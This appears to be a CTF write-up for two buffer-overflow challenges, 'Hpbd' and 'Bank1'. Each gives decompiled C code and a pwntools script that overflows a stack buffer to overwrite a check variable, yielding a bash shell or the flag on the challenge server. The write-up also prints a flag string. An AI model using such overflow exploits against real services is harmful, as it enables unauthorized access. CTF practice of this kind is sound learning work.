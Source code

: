 # **Hpbd**

Open IDA and we have the pseudo code:

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[24]; // [esp+0h] [ebp-24h] BYREF
  int v5; // [esp+18h] [ebp-Ch]
  int *v6; // [esp+1Ch] [ebp-8h]

  v6 = &argc;
  v5 = 0xFEEFEFFE;
  setup();
  puts("Tell me your birthday?");
  read(0, buf, 0x1Eu);
  if ( v5 == 0xCABBFEFF )
    run_cmd("/bin/bash");
  else
    run_cmd("/bin/date");
  return 0;
}
```

This is a basic buffer overflow vulnerability of `read` function and change the variable v5 to 0xCABBFEFF.  

Let's start coding:

```python
from pwn import *

r = remote("61.28.237.24",30200)

r.recvuntil('Tell me your birthday?')
payload= "A"*24+p32(0xCABBFEFF) # 24 letter A to fill buf[] + the little endian shellcode to overwrite v5
r.send(payload)
r.interactive()
```

### **Bank1**
Pseudo code from IDA:

```c++
void getFlag()
{
  system("cat flag.txt");
}
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
  if ( balance )
    getFlag();
}
```

This is even easier than HPBD since we just need to overwrite "balance". Exploit the vulnerable gets function with buffer overflow and we can get to the flag:

```python
from pwn import *

r = remote("61.28.237.24", 30202)

r.recvuntil('[+] Please enter your name: ')
payload= "A"*64+p32(0xCABBFEFF) #64 "A" to fill name[64] and I copied this from hpbd since I was lazy xD(random characters is good enough )
r.send(payload)
r.interactive()
#HCMUS-CTF{that_was_easy_xd}
```

[**Turn Back**](README.md)
